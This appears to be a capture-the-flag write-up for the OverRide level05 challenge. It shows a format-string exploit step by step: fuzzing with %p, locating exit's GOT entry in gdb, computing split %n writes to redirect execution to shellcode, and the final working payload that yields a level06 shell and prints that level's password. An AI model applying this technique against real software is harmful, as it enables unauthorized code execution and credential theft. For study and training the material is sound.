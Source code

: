 
fuzzing phase

```
level05@OverRide:~$ ./level05
ssss
ssss

obiously some format string here

level05@OverRide:~$ ./level05
%p %p %p

level05@OverRide:~$ (python -c 'print "AAAA" + " %p " * 10') | ./level05
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd6bf  0xffffd6be  (nil)  0xffffffff  0xffffd744  0xf7fdb000  0x61616161

level05@OverRide:~$ (python -c 'print "AAAA" + " %10$p "') | ./level05
aaaa 0x61616161
```

lets jump into jdb 

```
   0x08048507 <main+195>:	call   0x8048340 <printf@plt>
   0x0804850c <main+200>:	movl   $0x0,(%esp)
   0x08048513 <main+207>:	call   0x8048370 <exit@plt>
```   
   its GOT obviously

```
   (gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
```

```

x/600wx $esp
0xffffde60:	0x90909090	0x90909090	0x90909090	0x90909090


(gdb) p 0x80497e0  = 134518752
(gdb) p 0xffffde60 - 4 = 4294958684

```

```
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294958684d%10$n"' ; cat) | ./level05 > /dev/null
id 1>&2
```

mmm smthg wrong

lets debug the assembly

```

=> 0x8048466 <main+34>:	movl   $0x64,0x4(%esp)
   0x804846e <main+42>:	lea    0x28(%esp),%eax
   0x8048472 <main+46>:	mov    %eax,(%esp)
   0x8048475 <main+49>:	call   0x8048350 <fgets@plt>
   
buffer of size 100 stored at esp + 0x28
```
```
0x08048495 <+81>:	cmp    $0x40,%al

0x080484a7 <+99>:	cmp    $0x5a,%al
```
The code checks if the character is less than or equal to 0x40, which corresponds to '@' in ASCII,
and if it is greater than 0x5a, which corresponds to 'Z' in ASCII. If the character is within this range,
the code jumps to the main+135 address, which indicates that the input is invalid.

 0x080484cb <+135>:	addl   $0x1,0x8c(%esp)

```
'A' 0x41 65    XOR     32

01000001 = 65 = 'A'
XOR
00100000 = 32

01100001 = 97 = 'a'

python3 -c "print(65 ^ 32)"
97
```

```
level05@OverRide:~$ (python -c 'print "AAAA" + "BBBB" " %10$p %11$p"') | ./level05
aaaabbbb 0x61616161 0x62626262
```
the addresses in the stack are as follows
```
(gdb) x/900 $esp
0xffffd3c0
0xffffd3d0
0xffffd3e0
```
p 0xffffd3c0 = 4294955968

too long values, which results to negative value in signed 2's complement (-11328)

so we need to split the value if we want to properly override exit.GOT 

```
shellAddr = 0xMsbLsb
 
Lsb - 4 - 4 (already printed 2 addr)
Msb - Lsb = 0xffff - Lsb

exmpl:

0xffffdc59

(gdb) p 0xdc59 - 8 = 56401
(gdb) p 0xffff - 0xdc59 = 9126
```

```
(gdb) x/900 $esp

0xffffdd00:	0x90909090	0x90909090	0x90909090	0x90909090

(gdb) p 0xdd00 - 8        = 56568
(gdb) p 0xffff - 0xdd00   = 8959


level05@OverRide:~$ (python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56568d%10$n%8959d%11$n"' ; cat) | ./level05 > /dev/null
whoami 1>&2
level06
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```














